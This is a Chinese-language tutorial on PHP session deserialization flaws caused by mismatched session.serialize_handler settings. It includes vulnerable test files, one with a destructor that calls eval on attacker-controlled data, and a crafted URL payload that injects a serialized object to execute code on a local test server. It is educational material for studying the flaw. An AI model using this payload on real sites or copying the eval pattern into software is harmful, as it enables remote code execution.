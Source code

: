 # Session的不同解析方式
#### 参考文章

- https://secure.php.net/manual/zh/session.configuration.php#ini.session.serialize-handler
- https://blog.spoock.com/2016/10/16/php-serialize-problem/

## 问题所在
PHP中的Session的实现是没有的问题，在php.ini中session.serialize_handler可以设置序列化/解序列化的处理器名字，默认处理引擎是PHP，才外还有2个。
- `php_binary`：键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- `php`：键名+竖线+经过serialize()函数序列处理的值
- `php_serialize(PHP>5.5.4)`：经过serialize()函数序列化处理的值

![](/images/19-7-10_PHP_Session不同解析方式_1.png)
在php中，`session.serialize_handler`可以通过`ini_set('session.serialize_handler','xxxxx')`来设置。攻击人，如果通过`ini_set`使得PHP处理session时，序列化和反序列化的处理器不同，那么就可能造成漏洞。

#### 测试代码

**index.php**

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
```

us2.php
```php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon {
    var $hi;
    function __construct(){
        $this->hi = 'phpinfo();';
    }
    
    function __destruct() {
         eval($this->hi);
    }
}
```

访问

```php
http://127.0.0.1/?a=|O:5:%22lemon%22:1:{s:2:%22hi%22;s:14:%22echo%20%22spoock%22;%22;}
```

然后访问

```php
http://127.0.0.1/us2.php
```


![](/images/19-7-10_PHP_Session不同解析方式_2.png)